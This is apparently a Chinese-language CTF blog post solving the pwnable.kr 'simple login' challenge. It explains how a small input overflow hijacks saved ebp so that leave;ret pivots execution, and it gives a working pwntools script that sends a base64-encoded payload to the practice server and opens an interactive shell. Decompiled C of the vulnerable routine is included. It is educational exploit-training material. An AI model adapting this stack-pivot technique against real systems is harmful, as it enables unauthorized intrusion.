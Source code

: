 ```yaml
---
title: pwnable.kr刷题[]
date: 2022-09-02 10:10:00 +0800
categories: [CTF, Exercise]
tags: [ctf, basic, pwnable]     # TAG names should always be lowercase
---
```


# simple login

a1最多12，只能通过input溢出到ebp

leave指令相当于mov esp,ebp;pop ebp，所以当我们劫持了一次ebp后，下一次leave; ret将执行我们劫持内容块内的地址。

```python
from pwn import *
import base64
context.log_level = 'debug'

input = 0x0811EB40
correct = 0x804925f
io = remote("pwnable.kr", 9003)
payload = p32(0xDEADBEEF) + p32(correct) + p32(input)
payload = base64.b64encode(payload)
io.sendlineafter('Authenticate : ', payload)

io.interactive()
```

```c
  char v2[8]; // [esp+14h] [ebp-14h] BYREF
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h] BYREF

  memcpy(&v4, &input, a1);
  s2 = (char *)calc_md5((int)v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
```